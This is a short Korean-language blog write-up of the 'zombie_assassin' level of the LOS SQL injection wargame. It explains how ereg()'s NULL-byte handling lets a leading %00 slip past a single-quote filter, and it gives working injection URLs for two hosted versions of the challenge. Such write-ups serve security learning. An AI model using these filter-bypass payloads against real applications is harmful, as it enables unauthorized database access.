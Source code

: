 ```yaml
---
layout: post
title: ! "[LOS] zombie_assassin"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - LOS
---
```


![](/assets/posts/los/zombie_assassin.png)

직전 문제가 assassin이었는데 zombile_assassin 문제가 나왔다!<br>
id와 pw를 파라미터로 받고, 싱글 쿼터(')가 필터링 되어 있다.<br>
그런데 필터링을 할때 preg_match()가 아닌 ereg()를 사용한다. <br>
ereg() 함수는 대소문자 구분이 없고 NULL문자를 만나면 이후로 문자열 검사를 하지 않기 때문에
`%00`를 앞에 넣어 ' 필터링을 우회할 수 있다.

`https://los.eagle-jump.org/zombie_assassin.php?id=1&pw=%001' or id='admin`


### los.rubiya.kr 버전
`?id=%00&pw=%23e696d64616x0+tceles+noinu`

![](/assets/posts/los/zombie_assassin_clear.png)
클리어!!

